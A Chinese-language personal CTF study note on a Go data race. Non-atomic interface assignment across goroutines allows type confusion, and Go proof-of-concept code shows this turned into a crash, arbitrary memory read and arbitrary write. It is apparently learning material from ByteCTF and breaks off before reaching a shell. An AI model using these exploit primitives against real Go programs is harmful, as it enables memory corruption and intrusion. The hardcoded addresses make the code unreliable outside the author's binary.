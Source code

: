 # 2020_10_26

前两天都在打ByteCTF，这两天都在等WP(x，先看一下golang这个竞争

## golang data race
link：http://wiki.m4p1e.com/article/getById/90

问题出在`golang`的`goruntine`上，`interface`用于实现`golang`的多态。举个栗子：

```go
func main() {
    f = &ferari{oilLevel: 100}
    r = &ricksha{oilLevel: math.MaxUint32}
    confused = f
    go func() {
        var i int
        for {
            confused = f
            confused = r
            i++
            if i > 1000000 {
                break
            }
        }
    }()
    for {
        confused.OilLevel()
    }
}
```

对`confused`赋值的操作不是原子操作，所以可能会出现竞争。导致数据与方法不符的情况。这会导致这样一个严重的后果：

在`golang`中，我们无法进行任意地址的读写(如果没有unsafe)，但是考虑下面这种情况：
```go
type itf interface {
    X() bool
}

type safe struct {
    f *int
}

func (s *safe) X() bool {
    return false
}

type unsafe struct {
    f func() bool
}

func (u *unsafe) X() bool {
    if u.f != nil {
        u.f()
    }

    return false
}

var good itf
var bad itf
var confused itf

func main() {
    pp := 0x1337
    good = &safe{f: &pp}
    bad = &unsafe{}
    confused = good

    go func() {
        var i int
        for {
            confused = bad
            confused = good
            i++

            if i > 100000 {
                break
            }
        }
    }()

    for {
        confused.X()
    }
}
```

这样一个程序，会导致crash
```shell
$ ./test3          
unexpected fault address 0x1337
fatal error: fault
[signal SIGSEGV: segmentation violation code=0x1 addr=0x1337 pc=0x1337]
```

那现在我们需要一个任意地址读，那么可以对程序进行如下修改
```go
package main

type itf interface {
    X(addr *uint64) bool
}

type safe struct {
    f *uint64
}

func (s *safe) X(addr *uint64) bool {
    return false
}

type unsafe struct {
    f func(addr *uint64) bool
}

func (u *unsafe) X(addr *uint64) bool {
    if u.f != nil {
        u.f(addr)
    }
    return false
}

func print(addr *uint64) bool{
	println(*addr)
	return true
}

var good itf
var bad itf
var confused itf
var print_addr uint64 = 0x452610
var num uint64 = 0xdeadbeef

func main() {
	println(print)
    pp := print_addr
    good = &safe{f: &pp}
    bad = &unsafe{}
    confused = good

    go func() {
        var i int
        for {
            confused = bad
            confused = good
            i++

            if i > 100000 {
                break
            }
        }
    }()

    for {
        confused.X(&num)
    }
}
```

代码中的地址均为硬编码的地址...一时间不知道怎么获取函数地址

任意写的漏洞也比较简单，我们只修改print函数

```
func print(addr *uint64) bool{
	*addr = 12345678
	println(*addr)
	return true
}
```

所以我们现在就有了任意地址读和任意地址写。接下来就是如何获取一个shell

一点了，放明天搞。
